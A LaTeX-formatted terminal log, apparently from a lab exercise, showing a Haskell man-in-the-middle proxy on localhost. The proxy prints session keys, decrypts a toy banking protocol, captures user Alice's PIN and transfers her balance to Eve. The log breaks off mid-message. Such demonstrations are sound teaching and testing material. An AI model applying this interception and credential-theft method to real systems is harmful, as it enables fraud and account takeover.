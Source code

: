 \documentclass[12pt]{article}
\begin{document}
\begin{Verbatim}[frame=single,fontsize=\scriptsize]
$ ghc -O2 MitmProxy && ./MitmProxy InterceptCreds 1200 1201
Received a connection from localhost:37969
Forwarding to localhost:1201
Raw AES key: "N\171\144\140H*\143L\208$DxJ\SUBgY"
Raw AES IV: "1\191\179\174'y\SO\232\&9\210`\149\232n\192\208"
Raw Initial Nonce: "RlFG2izP47629746"
37969 -> 1201: "Action {actUser = \"Eve\", actPin = \"123456\", actOldNonce = \"RlFG2izP47629746\", 
actNewNonce = \"FrpSoXSF49325312\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"FrpSoXSF49325312\", 
actNewNonce = \"B&u^aF^u52980286\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"B&u^aF^u52980286\", 
actNewNonce = \"BjLzVTA#54300548\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"BjLzVTA#54300548\", 
actNewNonce = \"W65!WuLI54301141\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"W65!WuLI54301141\", 
actNewNonce = \"BobBnEF555492813\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Eve\", actPin = \"\", actOldNonce = \"BobBnEF555492813\", 
actNewNonce = \"nTBpaNkU55493336\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Alice\", actPin = \"012345\", actOldNonce = \"nTBpaNkU55493336\", 
actNewNonce = \"VRs#j^2a58112198\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
Intercepted creds "Alice":"012345"
Transferring everything to Eve
Transfer successful
1201 -> 37969: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"VRs#j^2a58112198\", 
actNewNonce = \"a3KmSCM!62023423\", actCmd = Login, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"a3KmSCM!62023423\", 
actNewNonce = \"66UPbZl463449808\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"66UPbZl463449808\", 
actNewNonce = \"hsnH^epO63450725\", actCmd = Balance, actAmount = 0, actRecipient = \"\"}"
37969 -> 1201: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"hsnH^epO63450725\", 
actNewNonce = \"khF6Xg7M64658788\", actCmd = Logout, actAmount = 0, actRecipient = \"\"}"
1201 -> 37969: "Action {actUser = \"Alice\", actPin = \"\", actOldNonce = \"khF6Xg7M64658788\", 

\end{Verbatim}
\end{document}
